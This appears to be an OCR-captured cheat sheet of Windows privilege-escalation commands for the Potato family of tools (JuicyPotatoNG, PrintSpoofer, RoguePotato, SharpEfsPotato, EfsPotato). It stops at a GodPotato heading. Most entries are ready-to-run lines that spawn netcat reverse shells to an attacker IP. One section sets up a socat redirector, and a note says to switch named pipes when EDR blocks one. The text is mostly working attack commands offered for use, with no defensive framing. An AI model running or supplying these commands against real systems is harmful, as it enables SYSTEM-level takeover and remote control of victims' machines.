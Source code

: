 ### JuicyPotatoNG

```bash

JuicyPotatoNG.exe -t * -p C:\windows\system32\cmd.exe -a "/c C:\users\kohsuke\desktop\nc.exe -e cmd.exe 10.10.16.48 9002"
```

### **PrintSpoofer**

```bash
# can use -i to inject to same process
PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd"
```

### **RoguePotato**

```bash
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -l 9999
# In some old versions you need to use the "-f" param
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -f 9999

# If outbound 135 is blocked, pivot the OXID resolver via socat on your redirector:
# On attacker redirector (must listen on TCP/135 and forward to victim:9999)
socat tcp-listen:135,reuseaddr,fork tcp:VICTIM_IP:9999

# On victim, run RoguePotato with local resolver on 9999 and -r pointing to the redirector IP
RoguePotato.exe -r REDIRECTOR_IP -e "cmd.exe /c whoami" -l 9999

```

### **SharpEfsPotato**

```bash
SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
# we cat the w.log  
type C:\temp\w.log
nt authority\system
```

### **EfsPotato**

```bash
# output will be nt authority\system
EfsPotato.exe "whoami"

# If one pipe fails or EDR blocks it, try the other supported pipes:
EfsPotato <cmd> [pipe]
	pipe -> lsarpc|efsrpc|samr|lsass|netlogon (default=lsarpc)
```

### **GodPotato**
